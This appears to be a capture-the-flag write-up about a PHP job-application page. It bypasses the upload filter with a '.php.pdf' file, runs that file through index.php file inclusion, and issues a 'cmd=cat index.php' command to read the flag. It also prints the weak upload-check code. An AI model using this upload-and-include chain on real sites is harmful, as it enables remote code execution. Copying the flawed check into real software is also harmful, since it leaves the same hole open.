 
after navigating through tabs figure out the system looks like :
```
/
├── index.php
├── home
├── about
├── jobs
├── data 'directory'
```
and any file passed to index.php? will be printed out on it . 

upload page and is looks like it checks if it ends with .pdf file 
1-  make small php file 

![image](https://user-images.githubusercontent.com/67979878/129133365-da552e3e-0190-453d-9818-3e9b93785c7a.png)

2- change extension to .php.pdf 

3-upload it successfully 

4-it will redirect you to  :

`http://18.192.3.151/join-team/index.php/data/test.php.pdf`

5- execute it by :

we pass the pdf file as parameter so it will get executed into the index.php file 

`http://18.192.3.151/join-team/index.php?data/test.php.pdf`


you can upload a shell or just read the index.php file 

in my case:

http://18.192.3.151/join-team/?data/test.php.pdf&cmd=cat index.php

now we can read flag at page source :)


code after clearing flag ;) , to understand how it checks file upload 
```
<?php 
if($_FILES){

  $cv = $_FILES['cv'];
  if($cv['type'] != 'application/pdf'){
    echo 'Only PDF Document Allowed';
    exit;
  }
  
  //check extention
  $ext = pathinfo($cv['name'], PATHINFO_EXTENSION);
  if($ext != 'pdf'){
    echo 'Only pdf Extention Are Allowed';
    exit;
  }
  
  move_uploaded_file($cv['tmp_name'], 'data/'.$cv['name']);

  echo 'Your cv has been uploaded successfully in <a href="data/'.$cv['name'].'">'.$cv['name'].'</a>';
  exit;
}

?>

```
# done
